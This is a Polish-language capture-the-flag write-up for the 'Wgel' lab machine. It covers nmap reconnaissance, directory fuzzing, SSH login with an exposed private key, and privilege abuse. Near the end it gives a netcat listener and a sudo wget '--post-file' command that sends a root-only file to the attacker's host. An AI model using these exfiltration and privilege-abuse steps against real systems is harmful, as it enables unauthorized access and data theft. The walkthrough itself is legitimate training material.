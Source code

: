 # Wgel

IP=10.10.45.81

## Rekonesans
Przeprowadzamy wstępny skan za pomocą narzędzia nmap:

```
sudo nmap -sV -sC 10.10.45.81
```

Otrzymujemy następujące wyniki:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-07 12:07 EDT
Nmap scan report for 10.10.45.81
Host is up (0.050s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.77 seconds
```

Zostały wykryte dwa porty.

### Port 80
Rozpoczynamy od sprawdzenia portu 80:

![80](img/80.JPG)

Strona przypomina domyślną stronę Apache'a, jednak w źródle znajdujemy ciekawą notkę z nazwą użytkownika:

![Jessie](img/Jessie.JPG)

```
jessie
```

Przechodzimy do enumeracji katalogów przy pomocy narzędzia ffuf:

```
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.45.81/FUZZ -c -recursion
```

![Ffuf](img/Ffuf.JPG)

W jednym z katalogów znajdujemy prywatny klucz RSA:

![Rsa](img/Rsa.JPG)

Widzimy, że nie jest on zaszyfrowany, dlatego nie ma potrzeby łamania hasła przy użyciu narzędzia John The Ripper:

![Key](img/Key.JPG)

### Port 22

Zapisujemy klucz w pliku, nadajemy mu odpowiednie uprawnienia i logujemy się do serwisu SSH:

![SSH](img/SSH.JPG)

Odczytujemy pierwszą flagę z pliku user_flag.txt:

![Flag1](img/Flag1.JPG)

## Zwiększenie poziomu uprawnień

Sprawdzamy jakie uprawnienia ma użytkownik jessie komendą sudo -l:

![Sudo](img/Sudo.JPG)

Próbujemy wykorzystać [exploit'a](https://gtfobins.github.io/gtfobins/wget/), aby zyskać uprawnienia root'a, jednak bezskutecznie:

![Wget](img/Wget.JPG)

Spróbujmy zatem odczytać drugą flagę bez uprawnień root'a. W tym celu przesyłamy zawartość pliku root_flag.txt na naszą maszynę za pomocą poniższych komend:

```
nc -lvnp [PORT]
```

![Nc](img/Nc.JPG)


```
sudo /usr/bin/wget --post-file=/root/root_flag.txt [IP]:[PORT]
```

![Get](img/Get.jpg)

Odczytujemy drugą flagę:

![Flag2](img/Flag2.jpg)

Do zobaczenia na kolejnych CTF-ach!
